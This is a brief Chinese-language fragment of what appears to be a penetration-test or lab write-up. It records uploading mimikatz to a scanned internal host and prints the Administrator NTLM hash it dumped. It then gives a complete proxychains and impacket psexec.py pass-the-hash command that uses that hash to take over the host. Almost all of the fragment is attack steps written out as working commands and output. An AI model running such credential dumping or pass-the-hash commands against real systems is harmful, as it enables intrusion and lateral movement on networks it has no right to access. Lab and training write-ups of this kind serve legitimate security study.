 扫到10.223.155.223  

上传mimikatz抓一下hash  
![](assets/img/attachments/QQ_1754542850559.png)  

```text
Administrator
173964ad89f81721613e41bd1122e65f
```

代理PTH攻击  
```bash
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py WORKGROUP/Administrator@10.223.155.223 -hashes :173964ad89f81721613e41bd1122e65f
```
